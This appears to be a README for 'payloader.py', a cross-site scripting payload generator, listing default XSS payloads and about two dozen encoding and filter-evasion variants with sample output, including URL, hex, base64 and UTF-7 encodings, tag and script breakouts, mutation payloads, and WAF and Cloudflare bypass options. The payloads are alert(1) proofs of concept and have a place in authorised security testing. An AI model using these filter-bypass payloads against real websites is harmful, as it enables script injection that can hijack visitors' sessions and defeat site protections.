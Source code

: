 ```bash
python3 payloader.py
```


## 🗃️  Features  🗃️


#### *Basic Payload

Sets default parameter to :```<script>alert(1)</script>```

#### *Div Payload

Sets default parameter to :```<div onpointerover='alert(1)'>MOVE HERE</div```

#### *Img Payload

Sets default parameter to :```<img src=x onerror=alert('1');>```

#### *Body Payload

Sets default parameter to :```<body ontouchstart=alert(1)>```

#### *Svg Payload

Sets default parameter to :```<svg onload=alert('1')>```

#### *Enter Your Payload

Encodes payload writed by user


#### *Payload Generator Parameter

Encodes payload on selected tag

#
```
* |   1.  UPPER CASE---->  <SCRIPT>ALERT(1)</SCRIPT>              
* |   2.  UPPER AND LOWER CASE----> <ScRiPt>aleRt(1)</ScRiPt>   
* |   3.  URL ENCODE ----->   %3Cscript%3Ealert%281%29%3C%2Fscript%3E           
* |   4.  HTML ENTITY ENCODE----->  &lt;script&gt;alert(1)&lt;/script&gt; 
* |   5.  SPLIT PAYLOAD ----->  <scri</script>pt>>alert(1)</scri</script>pt>>       
* |   6.  HEX ENCODE ----->  3c7363726970743e616c6572742831293c2f7363726970743e       
* |   7.  UTF-16 ENCODE -----> Encode payload to utf-16 format.   
* |   8.  UTF-32 ENCODE----->  Encode payload to utf-32 format.          
* |   9.  DELETE TAG -----> ";alert('XSS');//            
* |  10.  UNICODE ENCODE----->    %uff1cscript%uff1ealert(1)%uff1c/script%uff1e         
* |  11.  US-ASCII ENCODE ----->  ¼script¾alert(1)¼/script¾      
* |  12.  BASE64 ENCODE ----->   PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==          
* |  13.  UTF-7 ENCODE ----->   +ADw-script+AD4-alert(1)+ADw-/script+AD4-           
* |  14.  PARENTHESIS BYPASS ----->  <script>alert`1`</script>   
* |  15.  UTF-8 ENCODE ----->  %C0%BCscript%C0%BEalert%CA%B91)%C0%BC/script%C0%BE          
* |  16.  TAG BLOCK BREAKOUT-----> "><script>alert(1)</script>
* |  17.  SCRIPT BREAKOUT----->  </script><script>alert(1)</script>
* |  18.  FILE UPLOAD PAYLOAD-----> "><script>alert(1)</script>.gif
* |  19.  INSIDE COMMENTS BYPASS-----> <!--><script>alert(1)</script>-->
* |  20.  MUTATION PAYLOAD-----> <noscript><p title="</noscript><script>alert(1)</script>">
* |  21.  MALFORMED IMG-----> <IMG """><script>alert(1)</script>">
* |  22.  SPACE BYPASS-----> <img^Lsrc=x^Lonerror=alert('1');>
* |  23.  DOWNLEVEL-HIDDEN BLOCK-----> <!--[if gte IE 4]><script>alert(1)</script><![endif]-->
* |  24.  WAF BYPASS PAYLOADS-----> Show Waf Bypass Payload List
* |  25.  CLOUDFLARE BYPASS PAYLOADS-----> Show Cloudflare Bypass Payload List
* |  26.  POLYGLOT PAYLOADS-----> Show Polyglot Bypass Payload List
* |  27.  ALERT PAYLOADS-----> Show Alert Payload List
* |  28.  ALL CREATE PAYLOAD-----> Show Create All Payloads
* |  29.  GO BACK MAIN MENU
```